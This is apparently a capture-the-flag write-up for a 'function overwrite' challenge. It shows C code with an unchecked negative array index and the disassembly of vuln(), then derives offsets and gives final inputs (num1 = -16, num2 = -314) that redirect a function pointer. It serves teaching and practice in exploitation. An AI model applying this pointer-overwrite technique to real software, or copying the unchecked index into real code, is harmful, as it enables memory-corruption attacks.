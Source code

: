 # function overwrite

The program takes a `story` (max. 127 characters as input), and passes it onto the function pointed to by `check` \
In normal flow, `check` points to `hard_checker()`, which is impossible to pass by a 127-byte story \
On the other hand, `easy_checker()` can be passed; so must find a way to overwrite `check` to point to `easy_checker()`

```c
void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};
```

```c
scanf("%d %d", &num1, &num2);

if (num1 < 10)
{
    fun[num1] += num2;
}

check(story, strlen(story));
```

`Hint: Don't be so negative`

We can pass appropriate negative value in `num1` to overwrite `check`

Dump of assembler code for `vuln()`:

```gdb
    .
    .
    0x080495df <+111>:  call   0x8049180 <__isoc99_scanf@plt>
    0x080495e4 <+116>:  add    esp,0x10
    0x080495e7 <+119>:  mov    eax,DWORD PTR [ebp-0x8c]

    if (num1 < 10)
    0x080495ed <+125>:  cmp    eax,0x9
    0x080495f0 <+128>:  jg     0x8049614 <vuln+164>

    fun[num1] += num2
    0x080495f2 <+130>:  mov    eax,DWORD PTR [ebp-0x8c]
    0x080495f8 <+136>:  mov    ecx,DWORD PTR [ebx+eax*4+0x80]
    0x080495ff <+143>:  mov    edx,DWORD PTR [ebp-0x90]
    0x08049605 <+149>:  mov    eax,DWORD PTR [ebp-0x8c]
    0x0804960b <+155>:  add    edx,ecx
    0x0804960d <+157>:  mov    DWORD PTR [ebx+eax*4+0x80],edx

    check(story, strlen(story));
    0x08049614 <+164>:  mov    esi,DWORD PTR [ebx+0x40]
    0x0804961a <+170>:  sub    esp,0xc
    0x0804961d <+173>:  lea    eax,[ebp-0x88]
    0x08049623 <+179>:  push   eax
    0x08049624 <+180>:  call   0x8049140 <strlen@plt>
    0x08049629 <+185>:  add    esp,0x10
    0x0804962c <+188>:  sub    esp,0x8
    0x0804962f <+191>:  push   eax
    0x08049630 <+192>:  lea    eax,[ebp-0x88]
    0x08049636 <+198>:  push   eax
    0x08049637 <+199>:  call   esi
    .
    .
    .
```

```asm
mov    DWORD PTR [ebx+eax*4+0x80],edx
mov    esi,DWORD PTR [ebx+0x40]
```

`fun[]` is at **ebx+0x80**, `checker` is at **ebx+0x40** \
eax = -16 -> ebx+eax*4+0x80 = ebx+0x40

Got the location to overwrite, now what should be `num2` to get the desired function overwrite? \
`easy_checker()` is at **0x080492fc**, `hard_checker()` is at **0x08049436**; difference = 314

Final input:

- `story` = 'A'\*20 + '%' (65\*20 + 37 = 1337)
- `num1` = -16
- `num2` = -314
